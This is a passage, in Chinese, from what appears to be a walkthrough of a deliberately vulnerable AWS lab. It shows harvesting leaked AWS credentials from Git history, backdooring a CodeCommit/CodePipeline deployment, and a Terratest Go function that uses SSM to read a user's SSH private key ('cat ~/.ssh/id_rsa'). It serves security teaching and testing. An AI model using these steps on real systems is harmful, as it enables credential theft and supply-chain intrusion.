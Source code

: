 现在我们有了应用程序的源代码！

源代码中没有什么有趣的内容。然而，如果我们查看Git提交历史，有一个提交引起了我们的注意：

```
39ac1aa (HEAD -> master, origin/master, origin/HEAD) Added app.py
88055fb Added requirements.txt
bdf59bb Added Dockerfile
f1cb341 Use built-in AWS authentication instead of hardcoded keys
70f0181 Added buildspec.yml
```

分析这个提交的差异（`git show f1cb341`）揭示了一些泄露的AWS凭证！

使用这些凭证验证AWS时，我们注意到我们刚刚攻陷了IAM用户`developer`的凭证，该用户拥有`codecommit:GitPush`和`codecommit:PutFile`权限。

我们现在可以使用CodeCommit UI来后门应用程序，并等待持续部署管道将其部署到生产环境！例如，我们可以让应用程序将秘密数据记录到其日志（CloudWatch日志组`/aws/lambda/backend-api`）中。我们也可以后门应用程序，让它在每个请求上将秘密数据发送到远程、攻击者控制的服务器——或者不修改应用程序代码，而是后门Docker镜像本身。

一旦我们执行了恶意提交，CodePipeline管道就会获取我们的更改并开始将其推出到生产环境：

几分钟后，我们成功地后门了应用程序并捕获了标志！

```
START RequestId: 3bd6cd1e-9e01-4012-859d-70c9fcd9d643 Version: $LATEST
superSecretData=FLAG{SupplyCh4!nS3curityM4tt3r5"}
END RequestId: 3bd6cd1e-9e01-4012-859d-70c9fcd9d643
```

## 使用端到端测试进行持续测试

如前所述，该场景基于Terraform代码，负责创建VPC、EC2实例、管道等。Terraform代码并不简单。我们如何高度自信地认为它持续按预期工作？回想一下，在我们的上下文中，"工作"意味着处于可以通过预期步骤利用的状态。

我们利用了Terratest，这是一个用于测试Terraform代码的Go库。更具体地说，我们编写了如下工作的Go测试：

1. 使用Terratest运行我们的Terraform代码，针对实时AWS环境。资源实际部署到AWS。
2. 从我们的Go测试中，向FooCorp API发送实际的HTTP请求，以确保它已正确部署。
3. 仍然从我们的Go测试中，以编程方式执行漏洞利用步骤，一步一步来。
4. 测试完成后，销毁我们通过Terraform代码配置的基础设施。

然后我们可以使用`go test`运行我们的测试，可以手动运行，也可以在每次拉取请求时自动运行。以下是"以代码形式存在的漏洞利用步骤"的样子：

```go
func (test *EndToEndTest) StealPrivateSSHKey(instanceId string) string {
  // 在实例上执行SSM命令以窃取SSH私钥
  ssmClient := ssm.NewFromConfig(test.awsConfig)
  result, err := ssmClient.SendCommand(context.TODO(), &ssm.SendCommandInput{
    DocumentName: aws.String("AWS-RunShellScript"),
    InstanceIds:  []string{instanceId},
    Parameters: map[string][]string{
      "commands": {"cat /home/ssm-user/.ssh/id_rsa"},
    },
  })
  test.assert.Nil(err, "Unable to send SSM command to instance")

   // 等待SSM命令的输出
  commandOutput, err := ssm.NewCommandExecutedWaiter(ssmClient).WaitForOutput(context.TODO(), &ssm.GetCommandInvocationInput{
    CommandId:  result.Command.CommandId,
    InstanceId: &instanceId,
  }, 2*time.Minute)
  test.assert.Nil(err, "failed to retrieve SSM command output")

  // 我们成功窃取了SSH私钥
  return *commandOutput.StandardOutputContent
}
```
